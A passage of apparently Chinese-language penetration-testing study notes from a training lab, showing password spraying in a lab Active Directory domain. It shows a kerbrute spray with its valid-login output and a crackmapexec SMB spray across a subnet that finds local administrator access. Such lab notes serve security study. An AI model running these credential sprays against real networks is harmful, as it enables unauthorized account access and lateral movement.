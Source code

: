 #### 3. 使用 Kerberos（最快速、低噪音）
基於取得 TGT。
Kerberos 驗證只需要發送 兩個 UDP frames（AS-REQ），比起 LDAP 和 SMB 方法更快、更安靜。\
使用 [kerbrute](https://github.com/ropnop/kerbrute) 工具（Windows 版）：
```
PS C:\Tools> type .\users.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\users.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/11/25 - Ronnie Flathers @ropnop

2025/03/11 10:41:59 >  Using KDC(s):
2025/03/11 10:41:59 >   dc1.corp.com:88
2025/03/11 10:41:59 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2025/03/11 10:41:59 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2025/03/11 10:41:59 >  Done! Tested 3 logins (2 successes) in 0.053 seconds
```

>[!Note]
>Q: Spray the credentials of pete against all domain joined machines with crackmapexec. On which machine is pete a local administrator?\
>Ans:
>```
>┌──(chw㉿CHW)-[~]
>└─$ crackmapexec smb 192.168.151.0/24 -u pete -p 'Nexus123!' -d corp.com
>SMB         192.168.151.75  445    CLIENT75         [*] Windows 11 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
>SMB         192.168.151.72  445    WEB04            [*] Windows Server 2022 Build 20348 x64 (name:WEB04) (domain:corp.com) (signing:False) (SMBv1:False)
>SMB         192.168.151.74  445    CLIENT74         [*] Windows 11 Build 22000 x64 (name:CLIENT74) (domain:corp.com) (signing:False) (SMBv1:False)
>SMB         192.168.151.73  445    FILES04          [*] Windows Server 2022 Build 20348 x64 (name:FILES04) (domain:corp.com) (signing:False) (SMBv1:False)
>SMB         192.168.151.76  445    CLIENT76         [*] Windows 10 / Server 2016 Build 16299 x64 (name:CLIENT76) (domain:corp.com) (signing:False) (SMBv1:False)
>SMB         192.168.151.70  445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:corp.com) (signing:True) (SMBv1:False)
>SMB         192.168.151.75  445    CLIENT75         [+] corp.com\pete:Nexus123! 
>SMB         192.168.151.72  445    WEB04            [+] corp.com\pete:Nexus123! 
>SMB         192.168.151.74  445    CLIENT74         [+] corp.com\pete:Nexus123! 
>SMB         192.168.151.73  445    FILES04          [+] corp.com\pete:Nexus123! 
>SMB         192.168.151.76  445    CLIENT76         [+] corp.com\pete:Nexus123! (Pwn3d!)
>SMB         192.168.151.70  445    DC1              [+] corp.com\pete:Nexus123!
>```

### AS-REP Roasting
